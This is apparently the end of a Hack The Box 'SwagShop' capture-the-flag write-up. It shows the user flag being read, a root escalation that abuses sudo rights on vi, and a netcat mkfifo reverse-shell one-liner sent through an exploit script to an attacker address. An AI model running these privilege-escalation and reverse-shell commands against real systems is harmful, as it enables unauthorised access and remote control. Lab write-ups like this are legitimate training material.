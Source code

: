 We list the user folder:

    :::text
    ls /home/haris/
    user.txt

And we get the user flag:

    :::text
    cat /home/haris/user.txt
    a4488<redacted>

## let's get root

We start by enumerating our permissions on the box

    :::text
    sudo -l
    Matching Defaults entries for www-data on swagshop:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User www-data may run the following commands on swagshop:
        (root) NOPASSWD: /usr/bin/vi /var/www/html/*

It is well known that Vi let you run system command. Nevertheless we must execute
this command without a shell. For that we can use the vi "-c" option:

    :::text
    python sploi.py http://10.10.10.140/index.php/admin "sudo /usr/bin/vi /var/www/html/1 -c ':! cat /root/root.txt > /tmp/mak/6'"
    python sploi.py http://10.10.10.140/index.php/admin "cat /tmp/mak/6"
    c2b087<redacted>
          ___ ___
        /| |/|\| |\
      /_| ´ |.` |_\           We are open! (Almost)
        |   |.  |
        |   |.  |         Join the beta HTB Swag Store!
        |___|.__|       https://hackthebox.store/password

                                  PS: Use root flag as password!


### Reverse shell way

There is another way to resolve this part of the box: using a reverse shell!

My classic python reverse shell was not working as there was no python on the box and
the bash reverse was also not working. Nevertheless, the netcat one was working:

    :::bash
    python sploi.py http://10.10.10.140/index.php/admin "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.148 1234 >/tmp/f"
